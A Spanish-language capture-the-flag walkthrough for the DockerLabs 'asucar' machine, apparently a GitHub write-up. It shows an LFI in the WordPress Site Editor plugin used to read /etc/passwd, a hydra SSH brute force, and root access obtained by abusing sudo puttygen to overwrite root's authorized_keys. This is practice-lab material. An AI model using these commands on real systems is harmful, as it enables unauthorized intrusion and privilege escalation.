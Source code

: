 nmap: 22,80

![image](https://github.com/user-attachments/assets/8504499b-9655-431e-a40f-ea0959b954cf)


---
en la pagina principal podemos ver que es de wordpress:

![image](https://github.com/user-attachments/assets/f9cd8200-a10f-4ea9-97fa-bde2654899cb)

como sabemos que es un wordpress podemos utilizar sus herramientas. hacemos un "wpscan":

    -  wpscan --url http://asucar.dl/ 

nos da una version de "site-editor 1.1"

![image](https://github.com/user-attachments/assets/7e5f859f-eea9-4ac8-9341-3c89158bd8e5)


hacemos un searchsploit site-editor plugin, buscamos con:

      - searchsploit -x php/webapps/44340.txt  
      
nos da:
> site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php

buscamos sobre el exploit: https://www.exploit-db.com/exploits/44340

![image](https://github.com/user-attachments/assets/1fc5f8f5-8ed3-48dc-b28e-762f86653953)


y encontré que si en la barra de búsqueda colocamos: http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![image](https://github.com/user-attachments/assets/d02df419-b597-4b29-8f0d-a1403bd40c07)


y nos dio el contenido de "/etc/passwd" 

vemos que tenemos el usuario "*curiosito*"

hacemos un ataque de fuerza bruta:

         -hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

y nos dio: password1

![image](https://github.com/user-attachments/assets/fb17e9e4-9822-4484-b6e2-52ffe7101fc1)

entramos por el ssh

al hacer "sudo -l" nos aparece "puttygen" que es un comando para generar claves privadas como publicas.

![[sudo -l.png]]

y encontré que tenemos permisos root generamos una clave primero:

      -  puttygen -t rsa -b 2048 -o rootAccess.ppk

![[clave privada1.png]]
se puede dejar sin contraseña o con contraseña
lo pasamos una clave publica:
    
      - sudo puttygen rootAccess.ppk -O public-openssh -o /root/.ssh/authorized_keys
    
 ahora una privada:
   
    - puttygen rootAccess.ppk -O private-openssh -o privateRootAccess.ppk

en nuestra terminal colocamos:

      - scp curiosito@172.17.0.2:/home/curiosito/privateRootAccess.ppk . 

para pasarnos la clave privada.
![[privada2.png]]

 ya pasado hacemos un:
        
    - ssh root@172.17.0.2 -i privateRootAccess.ppk 

![[dockerlabs/medio/asucar/root.png]]

colocamos la contraseña que colocamos y somos root! 
